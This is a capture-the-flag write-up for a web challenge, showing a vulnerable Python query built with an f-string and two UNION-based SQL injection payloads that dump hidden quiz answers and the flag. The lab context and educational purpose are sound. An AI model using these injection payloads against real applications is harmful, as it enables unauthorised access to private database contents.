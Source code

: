# Secure Quiz Label Index

category: web

> Halogen has just released all the questions to the next CyberSecurity test. Blahaj wants to score full marks, and believes the answers and bonus questions are listed somewhere on the site. Help Blahaj get the answers and score full marks on this quiz!

From just a little testing (or just reading the source code provided), we see that our "search" gets injected into a SQL query:
```py
f"SELECT ID, question, setter FROM quizzes WHERE question LIKE '%{query}%' AND visible = 1"
```

We can escape the single quotes `'`, so we can use a SQL UNION injection (where we UNION the SQL query with another query to query what we want) as such:

payload: `' UNION SELECT ID, question, answer from quizzes`
```sql
SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' UNION SELECT ID, question, answer from quizzes %' AND visible = 1
```

However this is not a valid SQL query, so I appended yet another query to make it valid:

payload: `' UNION SELECT ID, question, answer from quizzes UNION SELECT ID, question, setter FROM quizzes WHERE question LIKE '`
```sql
SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' UNION SELECT ID, question, answer from quizzes UNION SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' AND visible = 1
```

and we get the answer to the "What is the flag?" question to be `blahaj{full_m4rk5_guar4nte3d!!}`